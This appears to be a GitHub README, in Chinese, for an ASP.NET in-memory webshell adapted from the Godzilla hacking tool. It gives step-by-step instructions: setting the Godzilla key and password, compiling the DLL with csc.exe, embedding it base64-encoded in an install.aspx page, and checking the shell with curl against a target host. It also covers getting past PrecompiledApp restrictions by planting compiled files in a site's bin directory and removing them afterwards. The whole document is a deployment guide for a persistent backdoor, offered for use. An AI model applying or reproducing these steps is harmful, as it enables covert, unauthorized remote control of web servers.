






# Memshell-VirtualPath
## 说明
`GhostWebShell.cs` 为Yso.net里面的代码，地址：[这里](https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs)，在这不做过多介绍。

`memshell.cs` 代码来源于 Godzilla-4.01 `shells/plugins/cshap/assets/memoryShell.dll`，做了一些小的修改。以下说明均为`memshell.cs`的使用方式。

代码中需要修改的点
```
input_key  为Godzilla 里面的key
pass       为Godzilla 里面的pass
```

## 编译

**dll**
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Web.dll,System.dll,Microsoft.CSharp.dll,System.Core.dll /t:library memshell.cs
```

## 使用
编译dll, base64编码以后，替换`install.aspx`中的`%%base64%%`字符串。

**验证：**
```
curl http://10.211.55.201/random.aspx -k -H "Type: print"
curl http://10.211.55.201/random.aspx/xxx -k -H "Type: print"
```



**Godzilla**
添加对应HTTP头即可。
AES_RAW



AES_BASE64



### PrecompiledApp

如目标开启了`PrecompiledApp`，上传aspx会碰到这样的报错：


这个时候需要编译我们的aspx，再上传，编译：
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_compiler.exe -v \ -p 1 2 -fixednames
```



再将我们编译好的bin目录下的内容，丢到网站的bin目录即可。



访问以后，可通过上面的方式访问shell，另外，其他上传其他的aspx文件，无需再编译上传即可正常访问，收工后，`删掉bin目录下上图的两个文件`，shell`不可访问`, 其他自己上传的aspx文件也`需要编译`才可访问。

### bypassFriendlyUrlRoute
Godzilla的实现与[GhostWebShell](https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs#L43)中的实现方法是一样的。 如果需要，去掉代码里的注释即可。


